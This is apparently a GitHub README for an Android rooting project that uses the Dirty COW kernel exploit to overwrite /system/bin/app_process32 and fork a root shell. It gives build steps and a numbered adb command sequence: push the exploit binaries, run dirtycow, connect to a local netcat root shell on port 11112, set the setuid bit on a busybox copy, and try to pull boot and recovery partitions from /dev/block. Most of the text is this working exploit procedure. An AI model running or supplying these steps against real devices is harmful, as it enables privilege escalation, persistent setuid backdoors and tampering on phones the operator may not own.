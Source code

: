 # Test root shell for any android phone with app-process32
Test root shell for any android phone with app-process32


This is nothing more than a test. It is a limited root shell, the test is to see how much can be done in the current contex.

to use the test
download or clone and (read the contents first is allways safer) run the one-click-root.bat
It will push 4 files to /data/local/tmp on your phone, it will use the "dirtycow" exploit to 
replace (temporarily)  the app_precess32 on /system/bin
then that will "fork" a shell as root.
next command will inject the contents of the cp_comand.txt to that shell.
proof of concept you should see you can create files as and owned by root now.

The road block from here is the contex of the root. I try to cp from /dev/block to pull recovery and boot, but get permission denied
on my samsung. On my other phone it works 

I put this in the public for hope of colaberation and further the effort.


If building from source instead of using prebuilt.

*** copy the "buildables" ***folder to the "android_external" folder in you android build enviroment.
name the folder something rememberable like "dirty-cow"

cd into your enviroment work folder

then after lunch for your device

make -j* dirtycow recowvery-app_process32

should have built binaries in the output folder, that you built.


USEAGE outside of using the scripts:

1: adb push dirtycow /data/local/tmp/dirtycow
2: adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32
***** used busybox that was prebilt and did not include busybox.c , you can find git that has busybox.c and build if desired*******
3: adb push busybox /data/local/tmp/busybox
4: adb shell chmod 0777 /data/local/tmp/*
5: adb shell /data/local/tmp/dirtycow /system/bin/app_process32 /data/local/tmp/recowvery-app_process32
*** after dirty cow finishes wait about 1 minute, phone is expected to soft reboot and buttons and screen become non responsive, while adb remain connected.
6: adb shell
7: /data/local/tmp/busybox nc localhost 11112
*** this should open a promtless shell with root access, you see cpio and no cuser. You can type and see your entry
8: mkdir /data/local/test     
9: /system/bin/chmod 0777 /data/local/test
10: ls -l /data/local
11: cp /data/local/tmp/busybox /data/local/test/busybox
12: /system/bin/chmod 0777 /data/local/test/busybox
13: ls -l /data/local/test                                  
14: /system/bin/chmod +s /data/local/test/busybox           
15: ls -l /data/local/test                                  shows can chmod files that are owned by root                                 
16: whoami                                                  shows the id of shell (root)
17: pwd                                                     shows the current dir
18: exit
